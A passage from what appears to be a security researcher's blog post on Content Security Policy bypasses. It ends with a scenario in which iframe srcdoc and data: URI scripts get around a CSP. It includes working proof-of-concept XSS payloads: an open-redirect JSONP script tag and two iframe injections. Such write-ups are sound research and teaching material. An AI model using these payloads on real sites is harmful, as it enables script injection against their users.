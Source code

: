 working payload :">'><script src="https://website.with.redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>">

**Scenario** : **10**

Content-Security-Policy:   
default-src 'self' data: \*; connect-src 'self'; script-src  'self' ;  
report-uri /\_csp; upgrade-insecure-requests

THE above CSP policy can be bypassed using iframes. The condition is that application should allow iframes from the whitelisted domain. Now using a special attribute srcdoc of iframe, XSS can be easily achieved.

working payloads :<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>\* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>

I hope you enjoyed reading this. Special thanks to [@mikispag](https://twitter.com/mikispag) & [@we1x](https://twitter.com/we1x) for their contribution to Google Security research in the domain of Content Security Policy secure implementation.

Thank You!

For any feedback or suggestions reach out to me @[Bhavesh\_Thakur\_](https://twitter.com/Bhavesh_Thakur_)


[Source](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)